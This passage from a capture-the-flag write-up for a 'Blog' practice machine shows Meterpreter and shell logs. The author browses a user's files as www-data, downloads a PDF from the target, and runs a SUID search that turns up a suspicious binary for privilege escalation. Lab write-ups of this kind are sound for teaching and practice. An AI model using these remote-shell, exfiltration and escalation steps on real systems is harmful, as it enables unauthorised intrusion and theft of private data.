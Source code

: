 ```
Server username: www-data

meterpreter > sysinfo
Computer    : blog
OS          : Linux blog 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64
Meterpreter : php/linux

```
Ok I get a shell real quick

```
meterpreter > shell
Process 1608 created.
Channel 1 created.

cd /home
ls
bjoel
cd bjoel
ls
Billy_Joel_Termination_May20-2020.pdf
user.txt
cat user.txt
You won't find what you're looking for here.

TRY HARDER
exit

```
Nieh! I am denied access to things again!

```
meterpreter > download Billy_Joel_Termination_May20-2020.pdf
[*] Downloading: Billy_Joel_Termination_May20-2020.pdf -> /home/THM/Blog/Billy_Joel_Termination_May20-2020.pdf
[*] Downloaded 67.49 KiB of 67.49 KiB (100.0%): Billy_Joel_Termination_May20-2020.pdf -> /home/THM/Blog/Billy_Joel_Termination_May20-2020.pdf
[*] download   : Billy_Joel_Termination_May20-2020.pdf -> /home/THM/Blog/Billy_Joel_Termination_May20-2020.pdf
```

We all found the pdf suspicious! so I downloaded it (meterpreter is just awesome)

meh...not useful (poor billy joel, I dont even know what tardiness means XD)

The author of this room just love rabbit holes!

Maybe we have to directly try to escalate ...

## Privilege escalation

sudo -l would not be possible so let's look for SUID

```
find / -perm -u=s 2>/dev/null
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/traceroute6.iputils
/usr/sbin/checker
```
